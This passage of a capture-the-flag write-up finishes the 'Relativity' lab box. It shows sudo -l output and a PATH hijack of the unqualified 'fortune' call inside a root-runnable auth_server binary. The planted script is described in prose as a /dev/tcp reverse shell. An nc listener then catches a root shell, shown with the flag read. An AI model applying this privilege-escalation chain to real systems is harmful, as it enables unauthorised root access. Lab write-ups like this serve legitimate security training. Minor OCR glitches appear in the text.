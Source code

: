 ```bash jetta's sudo -l
    XAUTHORITY PATH", env_reset

User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_serveyr
sh-4.2$
```

And there it is! `auth_server` may be run as root with no password requirement! \o/. Immediately I jumped to running `sudo /home/jetta/auth_server/auth_server`, just to be met with the same fate of 'error(12)'. While playing with the binary earlier, I was however convinced that this error(12) thing was exactly what it was configured to do and nothing more. Yes, thats it. Simply write the 'Checking Certs', 'Contacting Server' part, then, run `fortune -s | /usr/bin/cowsay` and error(12).

... wait a sec. `fortune` is not called from its full relative path, however /usr/bin/cowsay is. This means if I can fool the binary into thinking something else is this `fortune` command, then I may be able to root the box. Especially if I can make it think my bash shell is `fortune` :)

### finishing off
With all the knowledge I have gained now, I moved on to finishing off by rooting the box. This was achieved by firstly creating a script called `fortune`, which was simply the old bash command pushed over /dev/tcp again, and placing it in */home/jetta/bin*. I then ensured that `fortune` was executable and tested it by just running it alone. It was working fine :)

Next, I have to fool the auth_server binary to think that my new fortune script is in fact the one it was looking for. To do this, I added a path to the PATH env variable, and rehashed the bins. Lastly, I ran `auth_server` as root, and switched to my last nc listener on port 6677...

```bash auth_server Exploitation

```@Relativity ~]$ python -c "import pty;pty.spawn('/bin/sh');"
sh-4.2$ export PATH=/home/jetta/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
<etta/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
sh-4.2$ hash -r
sh-4.2$ sudo auth_server/auth_server
sudo auth_server/auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
```

`auth_server` did its usual trick with error(12), however, my netcat listener now had a root prompt \o/

```bash root shell and flag.txt
# nc -lvp 6677
listening on [any] 6677 ...
192.168.56.21: inverse host lookup failed: Unknown server error : Connection timed out
connect to [<snip>] from (UNKNOWN) [192.168.56.21] 38267
[root@Relativity jetta]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@Relativity jetta]# locate flag.txt
locate flag.txt
/root/flag.txt
[root@Relativity jetta]# cat /root/flag.txt
cat /root/flag.txt
65afa0e5928b98f7ae283e16df2d43bf
[root@Relativity jetta]#
```

As you can see, flag.txt was found by simply using the locate command for the file. Because I am now root, I have no troubles reading it, and as such, the challenge was considered completed!
